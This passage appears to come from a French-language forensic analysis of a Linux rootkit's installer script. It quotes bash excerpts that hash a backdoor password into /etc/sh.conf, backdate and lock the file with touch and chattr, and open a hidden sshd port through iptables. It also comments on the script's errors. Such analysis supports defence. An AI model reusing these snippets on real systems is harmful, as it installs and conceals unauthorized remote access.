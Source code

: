 Plusieurs commandes ne semblent pas avoir de sens. La référence à un binaire nommé `xlogin` n'est pas retrouvée ensuite. Il peut s'agir d'une ligne laissée lors d'un changement de version ou un test oublié par l'auteur...  

Le fichier `/etc/sh.conf` n'existe pas sur un système standard. Il s'agit d'un des fichiers qui est créé ensuite par le rootkit. Ce dernier fait donc le ménage avant de s'installer.  

La librairie `libproc` est une librairie que l'on ne trouve plus sur les systèmes actuels mais qui à l'époque était utilisée par les binaires `ps`, `top`, `pstree`. Cela en faisait une cible privilégiée des hackers car il suffisait de modifier cette librairie pour agir sur les résultats de plusieurs binaires à la fois.  

La librairie `ncurses` est notamment utilisée par les programmes `top` et `pstree`.  

La présence d'un fichier `.bash_history` sous la racine / ou dans le dossier `/bin` semble être un pur fruit de l'imagination de l'auteur. Il n'existe pas de tels fichiers à ces emplacements.  

Enfin le script remplace le programme de hachage `md5sum` par le sien et lui donne pour date celles de `/bin/ls`. Il aurait été plus judicieux de copier celles du `md5sum` original !

```bash
if test -n "$1" ; then
  echo "${DCYN}[${WHI}sh${DCYN}]# Using Password : ${WHI}$1 ${BLU} ${RES}"
  cd $BASEDIR/bin
  echo -n $1|md5sum > /etc/sh.conf
else
  echo "${DCYN}[${WHI}sh${DCYN}]# ${WHI} No Password Specified, using default - $DEFPASS ${BLU} ${RES}"
  echo -n $DEFPASS|md5sum > /etc/sh.conf
fi

touch -acmr /bin/ls /etc/sh.conf
chown -f root:root /etc/sh.conf
chattr +isa /etc/sh.conf
```

Dans les lignes ci-dessus, le programme place dans le fichier `/etc/sh.conf` le hash md5 d'un mot de passe choisi par l'utilisateur.
S'il est passé par argument, il s'agira du premier argument passé au `setup`, sinon ce sera celui indiqué dans la source du `setup` que l'on a vu au début (`dacialogan`).  

Dans notre cas, on a vu que le pirate a passé la chaine `unixteam` au `setup`. Ce sera donc son mot de passe.  

Des attributs spéciaux sont placés sur le fichier pour rendre difficile sa suppression par un administrateur ayant de faibles connaissances.

```bash
if test -n "$2" ; then
  echo "${DCYN}[${WHI}sh${DCYN}]# Using ssh-port : ${WHI}$2 ${RES}"
  echo "Port $2" >> $BASEDIR/bin/.sh/sshd_config
  echo "3 $2" >> $BASEDIR/conf/hosts.h
  echo "4 $2" >> $BASEDIR/conf/hosts.h
  port=$2
  cat $BASEDIR/bin/.sh/shdcf2 >> $BASEDIR/bin/.sh/sshd_config; rm -rf $BASEDIR/bin/.sh/shdcf2
  mv $BASEDIR/bin/.sh/sshd_config $BASEDIR/bin/.sh/shdcf
else
  echo "${DCYN}[${WHI}sh${DCYN}]# No ssh-port Specified, using default - $DEFPORT ${BLU} ${RES}"
  echo "Port $DEFPORT" >> $BASEDIR/bin/.sh/sshd_config
  echo "3 $2" >> $BASEDIR/conf/hosts.h
  echo "4 $2" >> $BASEDIR/conf/hosts.h
  port=$DEFPORT
  cat $BASEDIR/bin/.sh/shdcf2 >> $BASEDIR/bin/.sh/sshd_config; rm -rf $BASEDIR/bin/.sh/shdcf2
  mv $BASEDIR/bin/.sh/sshd_config $BASEDIR/bin/.sh/shdcf
fi

/sbin/iptables -I INPUT -p tcp --dport $port -j ACCEPT
```
